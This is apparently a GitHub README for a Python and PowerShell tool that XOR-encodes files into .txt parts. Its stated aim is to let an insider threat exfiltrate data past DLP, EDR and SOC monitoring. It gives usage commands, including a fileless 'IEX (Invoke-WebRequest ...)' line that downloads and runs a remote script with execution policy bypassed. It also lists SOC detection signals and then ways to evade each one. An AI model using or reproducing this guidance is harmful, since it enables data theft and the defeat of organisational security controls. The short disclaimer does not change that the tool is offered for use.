 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Purpose
Many organizations use **Data Loss Prevention (DLP) solutions** to block direct file uploads. However, **copy-pasting text is often allowed**. This tool enables an **insider threat** to covertly exfiltrate data by:
1. **Converting files to text-based `.txt` parts**.
2. **Copy-pasting the disguised text** to another system (e.g., email, chat, cloud storage).
3. **Downloading the parts and restoring the original file** without detection.


## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)

✅ Uses **XOR encryption** with a random key for stealth encoding

✅ **No Base64** (avoiding security tool detection)

✅ Restores files exactly as they were (including executables)

✅ **No file deletion** (Original files remain intact)

✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python Data-Exfiltration.py /path/to/folder
```
- Example: 
  ```sh
  python Data-Exfiltration.py Data_imp
  ```
- This will convert all files in `Data_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python Data-Exfiltration.py /path/to/folder --decode
```
- Example:
  ```sh
  python Data-Exfiltration.py Data_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/FileConverter.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Data\Data_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

### 🛡️ **How to Mitigate Detection**
✔️ Rename `.txt` files to blend in (e.g., `README_part1.txt`).
✔️ Use **steganography** instead of plain XOR.
✔️ Encrypt `.txt` parts using **AES** rather than simple XOR.
✔️ Exfiltrate using trusted processes (e.g., embedding in known applications).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

